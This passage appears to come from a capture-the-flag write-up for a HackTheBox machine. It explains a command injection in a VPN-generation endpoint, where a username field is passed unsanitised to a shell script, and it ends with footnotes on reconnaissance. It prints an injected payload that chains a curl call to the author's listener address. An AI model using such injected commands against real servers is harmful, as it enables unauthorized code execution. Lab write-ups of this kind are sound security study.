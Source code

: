 Here it is: whenever the server calls the `regenerate_user_vpn` method, the `$user` variable is passed as is. I.e., when we send our payload to the server, the code will execute the statement (and our malicious code):

```shell
/bin/bash /var/www/html/VPN/gen.sh tandera; curl http://10.10.14.38/
```

---
[^1]: It's possible to bruteforce directories too, but all links are available through crawling and javascript analysis. If you want to **speed things up**, use the `-jc/-js-crawl` option in katana. 
[^2]: The responses are always equal to the "Invalid Code" response, even with Boolean Based techniques. 
[^3]: The `ovpn` file contains a subdomain to connect: `edge-eu-free-1.2million.htb`, on port 1337. This port is closed. 
[^4]: The `10.10.14.38` is my local address of the real HackTheBox VPN (tun0). 
[^5]: To use the web-server in your local machine, make sure to create the database and tables of the application.

